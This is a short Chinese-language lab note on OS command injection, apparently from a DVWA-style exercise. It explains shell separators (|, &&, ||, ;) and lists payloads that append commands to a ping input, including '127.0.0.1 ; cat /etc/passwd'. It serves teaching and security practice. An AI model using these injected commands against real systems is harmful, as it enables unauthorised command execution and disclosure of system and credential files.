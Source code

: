 
#### 重要函式
- stristr(string,search,before_search)
- php_uname(mode)


---

#### 發現可以沒有輸入內容判斷
- Linux指令可以一行多命令
    - 試試看pipe ` |`

![](https://i.imgur.com/5w4gjuU.png)


---

#### 比較 | && || ;
- &&
    - (第2條命令只有在第1條命令成功執行之後才執行。)
- ||
    - (只有||前的命令執行不成功時，才執行後面的命令。)
- ;
    - (順序執行多條命令，當;號前的命令執行完（不管是否執行成功），才執行;後的命令)


---

#### Payload


```
127.0.0.1

127.0.0.1 ; ifconfig

127.0.0.1 ; ls

127.0.0.1 ; cd 

127.0.0.1 ; cd  /var/www
 
127.0.0.1 ; cat index.php

127.0.0.1 ; cat /etc/passwd 
```

---

![](https://i.imgur.com/1SoEAAT.png)


---

#### 撰寫程式時危險的API-1

